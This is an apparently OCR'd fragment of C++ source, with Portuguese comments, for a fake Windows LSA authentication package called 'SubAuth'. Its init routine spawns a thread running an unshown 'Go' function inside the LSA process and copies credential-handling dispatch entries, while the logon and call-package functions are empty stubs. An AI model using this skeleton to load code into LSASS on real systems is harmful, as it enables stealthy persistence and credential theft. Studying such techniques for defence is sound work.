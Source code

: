 ~~~cpp
                                  PLSA_DISPATCH_TABLE LsaDispatchTable,
                                  PLSA_STRING Database,
                                  PLSA_STRING Confidentiality,
                                  PLSA_STRING *AuthenticationPackageName) {
    PLSA_STRING name = NULL;
    HANDLE th;

    // Lança um código em uma nova thread
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) Go, 0, 0, 0);
    WaitForSingleObject(th, 0);

    // Copia as funções da tabela do LSA para a tabela do pacote de segurança
    DispatchTable.CreateLogonSession = LsaDispatchTable->CreateLogonSession;
    DispatchTable.DeleteLogonSession = LsaDispatchTable->DeleteLogonSession;
    DispatchTable.AddCredential = LsaDispatchTable->AddCredential;
    DispatchTable.GetCredentials = LsaDispatchTable->GetCredentials;
    DispatchTable.DeleteCredential = LsaDispatchTable->DeleteCredential;
    DispatchTable.AllocateLsaHeap = LsaDispatchTable->AllocateLsaHeap;
    DispatchTable.FreeLsaHeap = LsaDispatchTable->FreeLsaHeap;
    DispatchTable.AllocateClientBuffer = LsaDispatchTable->AllocateClientBuffer;
    DispatchTable.FreeClientBuffer = LsaDispatchTable->FreeClientBuffer;
    DispatchTable.CopyToClientBuffer = LsaDispatchTable->CopyToClientBuffer;
    DispatchTable.CopyFromClientBuffer = LsaDispatchTable->CopyFromClientBuffer;

    // Define o nome do pacote de segurança como "SubAuth"
    name = (LSA_STRING *)LsaDispatchTable->AllocateLsaHeap(sizeof *name);
    name->Buffer = (char *)LsaDispatchTable->AllocateLsaHeap(sizeof("SubAuth") + 1);
    name->Length = sizeof("SubAuth") - 1;
    name->MaximumLength = sizeof("SubAuth");
    strcpy_s(name->Buffer, sizeof("SubAuth") + 1, "SubAuth");

    // Retorna o nome do pacote de segurança
    (*AuthenticationPackageName) = name;

    return 0;
}

// Função para realizar o processo de logon do usuário.
NTSTATUS LsaApLogonUser(PLSA_CLIENT_REQUEST ClientRequest,
  SECURITY_LOGON_TYPE LogonType,
  PVOID AuthenticationInformation,
  PVOID ClientAuthenticationBase,
  ULONG AuthenticationInformationLength,
  PVOID *ProfileBuffer,
  PULONG ProfileBufferLength,
  PLUID LogonId,
  PNTSTATUS SubStatus,
  PLSA_TOKEN_INFORMATION_TYPE TokenInformationType,
  PVOID *TokenInformation,
  PLSA_UNICODE_STRING *AccountName,
  PLSA_UNICODE_STRING *AuthenticatingAuthority) {
    return 0;
}

// Função para permitir a chamada de pacotes de segurança.
NTSTATUS LsaApCallPackage(PLSA_CLIENT_REQUEST ClientRequest,
  PVOID ProtocolSubmitBuffer,
  PVOID ClientBufferBase,
  ULONG SubmitBufferLength,
  PVOID *ProtocolReturnBuffer,
  PULONG ReturnBufferLength,
  PNTSTATUS ProtocolStatus) {
    return 0;
~~~